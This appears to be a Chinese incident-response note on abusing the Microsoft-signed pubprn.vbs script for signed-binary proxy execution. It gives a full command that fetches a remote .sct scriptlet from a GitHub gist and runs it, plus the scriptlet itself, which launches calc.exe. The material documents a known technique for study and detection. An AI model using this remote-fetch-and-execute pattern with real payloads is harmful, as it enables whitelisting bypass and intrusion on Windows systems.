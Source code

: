 
# 15、pubprn.vbs

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
![20200413-15.png](../../_img\05-应急响应/1656916487508-612d3ed8-d04a-4a4a-82f2-14db36a67723.png)
